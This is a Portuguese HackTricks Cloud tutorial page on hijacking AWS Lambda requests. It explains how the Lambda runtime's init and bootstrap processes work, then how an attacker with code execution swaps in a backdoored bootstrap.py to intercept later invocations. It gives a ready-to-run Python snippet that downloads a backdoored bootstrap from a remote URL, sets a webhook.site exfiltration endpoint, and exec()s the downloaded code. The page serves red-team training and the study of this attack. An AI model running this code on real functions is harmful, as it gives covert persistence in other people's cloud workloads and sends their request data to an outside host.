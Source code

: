 # AWS - Roubar Requisições Lambda

{% hint style="success" %}
Aprenda e pratique AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo no Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo no Telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios no github.

</details>
{% endhint %}

## Fluxo Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** é um processo fora do contêiner que **envia** **invocações** para o processo **init**.
2. O processo init escuta na porta **9001** expondo alguns endpoints interessantes:
* **`/2018-06-01/runtime/invocation/next`** – obter o próximo evento de invocação
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – retornar a resposta do handler para a invocação
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – retornar um erro de execução
3. **bootstrap.py** tem um loop obtendo invocações do processo init e chama o código do usuário para tratá-las (**`/next`**).
4. Finalmente, **bootstrap.py** envia para o init a **resposta**

Note que o bootstrap carrega o código do usuário como um módulo, então qualquer execução de código realizada pelo código do usuário está realmente acontecendo neste processo.

## Roubando Requisições Lambda

O objetivo deste ataque é fazer com que o código do usuário execute um processo **`bootstrap.py`** malicioso dentro do processo **`bootstrap.py`** que lida com a requisição vulnerável. Desta forma, o processo **bootstrap malicioso** começará a **conversar com o processo init** para lidar com as requisições enquanto o bootstrap **legítimo** está **preso** executando o malicioso, então ele não pedirá requisições ao processo init.&#x20;

Esta é uma tarefa simples de realizar, pois o código do usuário está sendo executado pelo processo **`bootstrap.py`** legítimo. Então o atacante poderia:

* **Enviar um resultado falso da invocação atual para o processo init**, para que o init pense que o processo bootstrap está esperando por mais invocações.
* Uma requisição deve ser enviada para **`/${invoke-id}/response`**&#x20;
* O invoke-id pode ser obtido da pilha do processo **`bootstrap.py`** legítimo usando o módulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (como [proposto aqui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ou apenas solicitando-o novamente para **`/2018-06-01/runtime/invocation/next`** (como [proposto aqui](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Executar um **`boostrap.py`** malicioso que lidará com as próximas invocações
* Para fins de furtividade, é possível enviar os parâmetros de invocações lambda para um C2 controlado pelo atacante e então lidar com as requisições como de costume.
* Para este ataque, é suficiente obter o código original de **`bootstrap.py`** do sistema ou [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), adicionar o código malicioso e executá-lo a partir da invocação lambda atual.

### Passos do Ataque

1. Encontrar uma vulnerabilidade **RCE**.
2. Gerar um **bootstrap** **malicioso** (e.g. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Executar** o bootstrap malicioso.

Você pode facilmente realizar essas ações executando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para mais informações, confira [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referências

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Aprenda e pratique AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo no Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo no Telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
